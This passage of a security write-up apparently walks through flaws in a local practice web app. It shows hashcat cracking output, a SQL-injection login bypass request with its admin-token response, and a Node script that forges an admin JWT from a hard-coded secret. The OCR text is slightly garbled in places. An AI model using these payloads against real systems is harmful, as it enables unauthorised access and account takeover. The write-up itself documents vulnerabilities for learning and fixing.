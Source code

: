     Guess . Base .......: File ( rockyou . txt )
    Guess . Queue ......: 1/1 (100.00%)
    Speed .#1.........: 33671.1 kH / s (1.76 ms ) @ Accel :1024 Loops :1 Thr :32 Vec :1
    Recovered ........: 1/1 (100.00%) Digests ( total ) , 1/1 (100.00%) Digests ( new )
    Progress .........: 196608/14344384 (1.37%)
    Rejected .........: 0/196608 (0.00%)
    Restore . Point ....: 0/14344384 (0.00%)
    Restore . Sub .#1...: Salt :0 Amplifier :0 -1 Iteration :0 -1
    Candidate . Engine .: Device Generator
    Candidates .#1....: 123456 -> piggy !
    Hardware . Mon .#1..: Temp : 42 c Util : 0% Core :1645 MHz Mem :3504 MHz Bus :16
    ```

### CWE-89: SQL Injection

1. Do a POST request to `http://localhost:3001/api/session` like this one or insert this credentials in the browser :
    ```http
    POST /api/sessions HTTP/1.1
    Host: localhost:3001
    Content-Type: application/json

    {
        "username": "mario@example.org' --",
        "password": "UknownPassword"
        
    }
    ```
2. By exploiting the comment operation you manage to avoid the password check, getting the correct credentials in output.
    ```http
    HTTP/1.1 200 OK
    [...]
    access_token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpZCI6MSwidXNlcm5hbWUiOiJtYXJpb0BleGFtcGxlLm9yZyIsIm5hbWUiOiJNYXJpbyIsImFkbWluIjoxLCJpYXQiOjE3MDc4MjU2ODh9.;
    Max-Age=604800;Path=/;Expires=Tue, 20 Feb 2024 12:01:28 GMT; HttpOnly
    [...]

    {
        "id": 1 ,
        "username": "mario@example.org",
        "name": "Mario",
        "admin": 1
    }
    ```

### CWE-798: Use of Hard-coded Credentials

1. By getting the jwt secret easily from the source code you can use a script like this to sign the data you want to put in the token and pass the token verification:
    ```js
    const jwt = require (' jsonwebtoken ') ;
    const jwtSecret = " mydfs68jlk5620jds7akl8m127a8sdh168hj ";
    const obj ={
        id: 9,
        name: "Test",
        username: "test@example.org",
        admin: 1,
    }
    const token = jwt.sign(obj, jwtSecret, { algorithm:  "none" });
    console.log(token)
    ```
2. Now that you have obtained the token you just enter it in in the cookie section of the front-end or enter it in a POST request to get the logged in user/admin priveleges. 